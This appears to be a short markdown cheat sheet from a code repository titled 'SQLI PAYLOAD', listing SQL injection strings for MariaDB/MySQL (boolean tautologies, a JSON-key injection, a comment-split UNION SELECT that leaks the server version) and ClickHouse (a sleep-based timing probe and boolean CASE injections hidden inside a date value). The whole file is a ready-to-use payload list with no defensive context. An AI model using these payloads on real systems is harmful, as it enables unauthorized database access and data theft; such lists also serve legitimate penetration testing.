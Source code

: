 # SQLI PAYLOAD

# MARIADB, MYSQL
||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  
{"or 1=1 -- ":"asdf"}//딕셔너리  
"1param":"asdf%') /*", "2param":" */ union select 0,0,0,@@version,0 --a"  

# CLICK HOUSE
DESC, (select sleep(3)) -- -  
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  
